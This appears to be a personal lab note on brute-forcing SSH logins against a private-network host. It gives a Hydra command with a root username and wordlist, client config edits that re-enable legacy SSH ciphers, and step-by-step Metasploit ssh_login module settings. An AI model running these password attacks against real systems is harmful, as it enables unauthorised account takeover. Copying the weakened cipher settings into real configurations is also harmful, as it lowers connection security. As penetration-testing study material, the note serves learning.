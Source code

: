 
# Brute Force Attack


1. Use Hydra

```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.68.6 -t 4 -V

```

I encountered issue in running hydra. First is the incompatibility with the cipher used, so I edited the /etc/ssh/ssh_config to accept old ciphers


![[Pasted image 20240613202040.png]]

From https://medium.com/@sany4sec/ssh-error-in-hydra-while-brute-forcing-b148a61752e2 - I added the following key exchange

```
Host *  
  Ciphers +3des-cbc,aes128-cbc,aes192-cbc,aes256-cbc  
  KexAlgorithms +diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1,diffie-hellman-group14-sha1  
  HostKeyAlgorithms +ssh-rsa,ssh-rsa-cert-v01@openssh.com,ssh-dss,ssh-dss-cert-v01@openssh.com  
  PubkeyAcceptedAlgorithms +ssh-rsa,ssh-rsa-cert-v01@openssh.com,ssh-dss,ssh-dss-cert-v01@openssh.com
```

After that it runs to Out of Memory Error. It turns out that I need to execute the steps here in this link. As it turns out, libssh doesn't support +,-,^ signs in the config. Luckily it's just been implemented upstream, on the master

https://www.kali.org/docs/general-use/ssh-configuration/

This setting can be changed easily using the `kali-tweaks` tool. Simply:

- Open a terminal and run `kali-tweaks`.
- From there, select the _Hardening_ menu.
- Now you can choose between **Strong Security** _(the default)_ and **Wide Compatibility**.

_Note: This is achieved by creating or deleting the configuration file `/etc/ssh/ssh_config.d/kali-wide-compat.conf`._

![[Pasted image 20240613202250.png]]


The end result

![[Pasted image 20240613202411.png]]


==================================================

## Use the metasploit

1. Look for ssh login

```
msfconsole
```

```
search ssh login
```

You can see there the `11 auxiliary/scanner/ssh/ssh_login`

2. Select the `auxiliary/scanner/ssh/ssh_login`
```
use 11
```

3. Check options for settings
```
options
```

![[Pasted image 20240613202835.png]]


4. We will set for now username as `root` and password as `pass_file(option from the options command) /usr/share/wordlists/metasploit/unix_passwords.txt
```
set username root
set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
```
5. Set the RHOSTS
```
set rhosts 192.168.68.6
```
6. Set threads
```
set threads 10
```
8. execute `options` one more time to check the settings
